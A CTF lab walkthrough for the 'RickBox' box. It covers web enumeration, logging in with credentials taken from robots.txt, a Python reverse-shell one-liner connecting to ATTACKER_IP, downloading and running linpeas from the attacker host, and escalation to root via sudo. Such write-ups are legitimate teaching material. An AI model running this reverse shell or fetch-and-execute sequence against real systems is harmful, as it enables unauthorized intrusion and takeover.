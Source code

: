 # RickBox — CTF Walkthrough

This walkthrough documents the steps I took to solve the RickBox CTF in a clear, chronological, and reproducible way. The goal is to show the discovery, artifacts, commands used, and privilege escalation path in a readable format.

> **Disclaimer:** For educational purposes only. Do not scan, exploit, or access systems without explicit authorization.

---

## 1. Target Overview
- Target IP: `$IP` (example)
- Open ports discovered: `22` (SSH), `80` (HTTP)

---

## 2. Enumeration
1. **Checked robots.txt**
   - Accessed `http://$IP/robots.txt` and found a random text: **`Wubbalubbadubdub`** — noted it.
2. **Username observed**
   - A username visible on the web page: **`R1ckRul3s`** — saved to notes.
3. **Directory brute-force (gobuster)**
   - Command used as an example:
     ```bash
     gobuster dir -u http://$IP:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
     ```
   - Result: `login.php` was discovered.

---

## 3. Web Login and Initial Access
1. Visited `login.php` and tried credentials derived from earlier findings: username `R1ckRul3s` and password `Wubbalubbadubdub` (from `robots.txt`). Login succeeded.
2. After logging in, the web interface provided a limited command execution box. Most commands were restricted, but **Python** execution was allowed — this became the pivot for further access.

---

## 4. Getting a Reverse Shell
1. Used a Python reverse-shell payload (PentestMonkey style). Example workflow:
   ```bash
   # On attacker machine: start a netcat listener
   nc -lvnp 4444

   # On target (single-line payload):
   python -c 'import socket,subprocess,os;s=socket.socket();s.connect(("ATTACKER_IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'
   ```
2. The listener caught a connection and gave an initial shell.

---

## 5. Stabilizing the Shell (PTY)
To improve interactivity, the following steps were executed:
```bash
# Spawn a proper tty (on the target shell)
python -c 'import pty; pty.spawn("/bin/bash")'

# Put the session into foreground on attacker machine after Ctrl+Z
stty raw -echo; fg

# Set TERM environment variable (on target shell)
export TERM=xterm
```
This made the shell behave better with interactive programs.

---

## 6. Capturing the First Flags / Ingredients
- First ingredient found: **Mr. Meeseek hair** (location not exhaustively listed here).
- Second ingredient: **1 jerry tear** — found in `/home/rick`.

> Note: When publishing to GitHub, you may omit exact sensitive files or full contents; listing file names and locations is usually enough.

---

## 7. Local Enumeration and Privilege Escalation
1. Planned to run `linpeas` to find privilege escalation vectors. To transfer `linpeas.sh` to the target, an HTTP server was started on the attacker machine:
   ```bash
   # On attacker:
   python3 -m http.server 8000
   # or
   python -m SimpleHTTPServer 8000
   ```
2. On the target, moved to `/dev/shm` and downloaded `linpeas.sh` using `wget`:
   ```bash
   cd /dev/shm
   wget http://ATTACKER_IP:8000/linpeas.sh
   chmod +x linpeas.sh
   ./linpeas.sh
   ```
3. `linpeas` indicated a misconfiguration that allowed escalating to root without a password. I verified `sudo -l` and used `sudo bash` (or `sudo -i`) to obtain a root shell:
   ```bash
   sudo -l
   sudo bash
   ```
4. As root, I inspected `/root` and found the third ingredient: **fleeb juice**.

---

## 8. Cleanup / Notes
- I noted file locations and artifacts in my local notes.
- When preparing a public report, avoid publishing real IP addresses, credentials, or full exploit payloads — use placeholder values like `ATTACKER_IP` and `TARGET_IP`.
- Consider cleaning up tools and temporary files on the target in a real authorized engagement.

---

## 9. Tips & Good Practices
- Save `gobuster` output to a file: `gobuster ... -o gobuster_output.txt`.
- Always check common files: `robots.txt`, `.git/`, `backup`, `config.php`, etc.
- After getting a shell, run basic recon commands first: `id`, `whoami`, `hostname`, `uname -a`, `ps aux`.
- `linpeas` and similar scripts are helpful for quick guidance, but always manually verify findings.

---

## 10. Example Git Commit Message
```
feat: add RickBox CTF walkthrough - initial report

- discovery, web login, reverse shell, pty stabilization
- linpeas-based privilege escalation
- found ingredients: Mr. Meeseek hair, 1 jerry tear, fleeb juice
```



